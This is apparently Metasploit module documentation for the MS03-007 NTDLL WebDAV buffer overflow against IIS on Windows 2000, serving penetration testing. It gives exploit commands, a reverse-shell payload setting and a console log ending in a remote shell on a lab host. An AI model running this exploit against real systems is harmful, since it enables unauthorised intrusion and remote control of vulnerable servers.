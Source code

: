 ## Vulnerable Application

This exploits a buffer overflow in NTDLL.dll on Windows 2000
through the SEARCH WebDAV method in IIS. This particular
module only works against Windows 2000. It should have a
reasonable chance of success against SP0 to SP3.

This module has been tested successfully on:

* Windows 2000 Professional SP0 (EN)
* Windows 2000 Professional SP0 (FI)
* Windows 2000 Professional SP0 (NL)
* Windows 2000 Professional SP0 (TR)
* Windows 2000 Professional SP1 (AR)
* Windows 2000 Professional SP1 (CZ)
* Windows 2000 Professional SP1 (EN)
* Windows 2000 Professional SP2 (EN)
* Windows 2000 Professional SP2 (FR)
* Windows 2000 Professional SP2 (PT)
* Windows 2000 Professional SP3 (EN)
* Windows 2000 Server SP0 (DE)
* Windows 2000 Server SP0 (EN)
* Windows 2000 Server SP0 (ES)
* Windows 2000 Server SP0 (FR)
* Windows 2000 Server SP0 (HU)
* Windows 2000 Server SP0 (NL)
* Windows 2000 Server SP0 (PT)
* Windows 2000 Server SP0 (TR)
* Windows 2000 Server SP1 (EN)
* Windows 2000 Server SP1 (SE)
* Windows 2000 Server SP2 (EN)
* Windows 2000 Server SP2 (RU)
* Windows 2000 Server SP3 (DE)
* Windows 2000 Server SP3 (IT)

## Verification Steps

1. `use exploit/windows/iis/ms03_007_ntdll_webdav`
1. `set RHOSTS [IP]`
1. `set PAYLOAD windows/shell/reverse_tcp`
1. `set LHOST [IP]`
1. `run`

## Options


## Scenarios

### Windows 2000 Professional SP1 (EN)


```
msf6 > use exploit/windows/iis/ms03_007_ntdll_webdav 
[*] Using configured payload windows/shell/reverse_tcp
msf6 exploit(windows/iis/ms03_007_ntdll_webdav) > set rhosts 192.168.200.195
rhosts => 192.168.200.195
msf6 exploit(windows/iis/ms03_007_ntdll_webdav) > set lhost 192.168.200.130 
lhost => 192.168.200.130
msf6 exploit(windows/iis/ms03_007_ntdll_webdav) > check
[+] 192.168.200.195:80 - The target is vulnerable. We've hit a server error (exception)
msf6 exploit(windows/iis/ms03_007_ntdll_webdav) > run

[*] Started reverse TCP handler on 192.168.200.130:4444 
[*] Trying return address 0x004e004f (1 / 88)...
[-] Attempt failed: Connection reset by peer
[*] Checking if IIS is back up after a failed attempt...
[-] Connection failed (1 of 20)...
[-] Connection failed (2 of 20)...
[-] Connection failed (3 of 20)...
[-] Connection failed (4 of 20)...
[*] Trying return address 0x00ce004f (2 / 88)...
[-] Attempt failed: Connection reset by peer
[*] Checking if IIS is back up after a failed attempt...
[-] Connection failed (1 of 20)...
[-] Connection failed (2 of 20)...
[*] Trying return address 0x00ce0041 (3 / 88)...
[-] Attempt failed: Connection reset by peer
[*] Checking if IIS is back up after a failed attempt...
[-] Connection failed (1 of 20)...
[-] Connection failed (2 of 20)...
[-] Connection failed (3 of 20)...
[-] Connection failed (4 of 20)...
[*] Trying return address 0x00430041 (4 / 88)...
[-] Attempt failed: Connection reset by peer
[*] Checking if IIS is back up after a failed attempt...
[-] Connection failed (1 of 20)...
[-] Connection failed (2 of 20)...
[*] Trying return address 0x00b40041 (5 / 88)...
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 192.168.200.195
[*] Command shell session 1 opened (192.168.200.130:4444 -> 192.168.200.195:1066) at 2022-07-07 06:13:21 -0400


Shell Banner:
Microsoft Windows 2000 [Version 5.00.2195]
-----


C:\WINNT\system32>ver
ver

Microsoft Windows 2000 [Version 5.00.2195]

C:\WINNT\system32>
```
